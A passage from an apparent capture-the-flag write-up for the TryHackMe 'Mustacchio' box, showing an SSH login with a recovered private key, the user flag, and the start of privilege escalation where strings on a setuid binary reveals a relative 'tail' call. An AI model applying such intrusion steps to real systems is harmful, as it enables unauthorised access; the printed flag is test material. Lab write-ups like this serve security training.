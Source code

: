 ## SSH First Access

Now we can use the key on [[SSH]] and cat the user flag:

```bash
┌──(hax㉿HaxonKali)-[~/THM/CHALLENGES/Easy/Mustacchio]
└─$ ssh -i barry_id barry@mustacchio.thm 
Enter passphrase for key 'barry_id': 
Welcome to Ubuntu 16.04.7 LTS (GNU/Linux 4.4.0-210-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

34 packages can be updated.
16 of these updates are security updates.
To see these additional updates run: apt list --upgradable



The programs included with the Ubuntu system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Ubuntu comes with ABSOLUTELY NO WARRANTY, to the extent permitted by
applicable law.

barry@mustacchio:~$ ls
user.txt
barry@mustacchio:~$ cat user.txt 
62d77a4d5f97d47c5aa38b3b2651b831
```
#  Privilege Escalation

We have an interesting file in joe's home:

```bash
barry@mustacchio:/home$ cd joe
barry@mustacchio:/home/joe$ ls
live_log
```

We can try to run the `strings` command on the file and we can see that it is writting to file access.log:

```bash
barry@mustacchio:/home/joe$ strings live_log 
/lib64/ld-linux-x86-64.so.2
libc.so.6
setuid
printf
system
__cxa_finalize
setgid
__libc_start_main
GLIBC_2.2.5
_ITM_deregisterTMCloneTable
__gmon_start__
_ITM_registerTMCloneTable
u+UH
[]A\A]A^A_
Live Nginx Log Reader
tail -f /var/log/nginx/access.log
:*3$"
GCC: (Ubuntu 9.3.0-17ubuntu1~20.04) 9.3.0
```
